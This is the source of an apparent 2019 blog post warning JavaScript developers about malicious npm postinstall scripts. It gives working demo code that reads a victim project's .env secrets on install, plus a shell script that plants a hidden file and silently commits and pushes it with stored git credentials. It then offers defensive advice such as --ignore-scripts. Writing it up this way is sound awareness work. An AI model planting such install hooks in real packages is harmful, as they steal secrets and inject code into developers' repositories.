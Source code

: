 ```yaml
---
layout: post
title:  "NPM and Evil Scripts"
date:   2019-06-10 01:04:13 +0300
tags:
  - NPM
  - Javascript
---
```


If you are writing javascript, then you probably used NPM. And you probably heard the cries of many javascript developers of how people are overusing NPM packages as dependencies without worrying. If you are one of these people who are not worried, you definitely should be. In this post, I will try to show you one of the reasons why you should be worried.

## Incidents of the Past

Have you heard about the [eslint-scope hijack](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes)? or perhaps the [event-stream incident](https://github.com/dominictarr/event-stream/issues/116)? or just last June when the NPM security team ["foiled a plot to steal cryptocurrency"](https://blog.npmjs.org/post/185397814280/plot-to-steal-cryptocurrency-foiled-by-the-npm)?

Stolen credentials of one developer, a new maintainer, and a malicious package publisher. All lead to different types of security incidents.

New packages are being published to NPM every day. Many of them are useful, some are not so much, and some are malicious. From phishing attempts to make you install the wrong package, to packages that try to steal or manipulate your system files.

## NPM Scripts

Have you ever used `npm start` or `npm test` or even `npm install`? If so then you are already using NPM scripts. There are few scripts defined by NPM: start, test, and install are few examples. You can read the full list of all predefined scripts in the [NPM documentations](https://docs.npmjs.com/misc/scripts). Additionally, you can define your own scripts and run them with `npm run mycommand`.

## The Dangers of NPM Scripts

Reading NPM documentation about the `postinstall` script:
> Run AFTER the package is installed

This could be useful in many instances, and also dangerous in other situations.

Let's take few examples of how the `postinstall` script can be used by malicious developers to attack you, the poor developer.

## Post Install of Doom Example #1

Let's try something simple. In many node applications, there is a file called `.env`. This file is most likely not committed to source control. It may hold few critical information about your environment. Let's steal it, shall we?!! I will first create a normal npm package, that literally does nothing.

1. First create the package directory:

    ```console
    $ mkdir blog-npm-scripts && cd blog-npm-scripts
    ```

2. Create a `postinstall.js` file and let's try to read the `.env` file:

    ```javascript
    const Path = require('path');
    const fs = require('fs');

    // example: steal stuff from your code-base: an environment file for example
    const workingDirectory = process.cwd();

    const envFilePath = Path.join(workingDirectory, '../..', '.env');

    fs.readFile(envFilePath, 'utf8', (err, data) => {
        if (err) {}

        // I can do whatever
        // for example: I can send these to a remote server!
        console.log(data);
    });
    ```

    Your package is installed under `node_module/blog-npm-scripts`. The code above tries to break out of the `node_modules` directory into the root of the victim's codebase.

3. Add postinstall script in `package.json`:

    ```json
    {
      "name": "blog-npm-scripts",
      "version": "1.0.0",
      "description": "",
      "main": "index.js",
      "scripts": {
        "postinstall": "node ./postinstall.js"
      },
      "author": "",
      "license": "MIT"
    }
    ```

4. An unsuspecting developers installs your package:

    ![example #1 result](/assets/images/npm-evil-scripts-result-1.png)

And done!! We stole this poor developer's environment files.

## Post Install of Doom Example #2

Let's try something slightly more extreme. Let's target those who are using some kind of credential helpers. These users will be most likely auto logged in when executing git commands. Let's try to leverage that to our advantage and inject some code into their codebase.

This time, we will use a shell script.

1. Create a `postinstall.sh` file:

    ```console
      # break outside node_modules
      cd ../..

      # create sneaky javascript file
      touch .sneaky.js

      echo 'module.exports = () => console.log("You cannot even see me")' >> .sneaky.js

      echo 'require("./.sneaky.js")()' >> index.js

      LAST_MESSAGE="$(git log -1 --pretty=%B)"

      git add .

      git commit -m "$LAST_MESSAGE"

      git push origin master
    ```

    The script above creates a file called `.sneaky.js` in the codebase root directory then attempts to push that code to source control using the last commit message.

2. Replace the `postinstall` script in `package.json`:

    ```json
      {
        "scripts": {
          "postinstall": "sh ./postinstall.sh"
        }
      }
    ```

3. An unsuspecting developers installs your package:
    ![example #2 result](/assets/images/npm-evil-scripts-result-2.png)
    As you can see the code was pushed to Github.

## Possibilities are Endless

These are just two simple examples. There are more complex and infinite ways malicious publishers can exploit these scripts. They can trick you into executing sudo commands using `"postinstall": "sudo whatever"`, modify or corrupt your system files, steal valuable information, or install malicious software.

## What can I do?

Few words of advice:
1. Don't install packages for everything.
2. If you install something, do a background check:
    - Ensure the package has a repository link.
    - Ensure the package is actively being maintained.
    - Ensure there is a way of reporting issues and bugs.
    - NPM audits: run `npm audit` to find what are the vulnerable packages.
3. Run npm install with the `--ignore-scripts` flag.
4. If you find a malicious package, report it immediately.

NPM is great but just like other great things, it can be used to do harm. Don't trust everything on NPM blindly.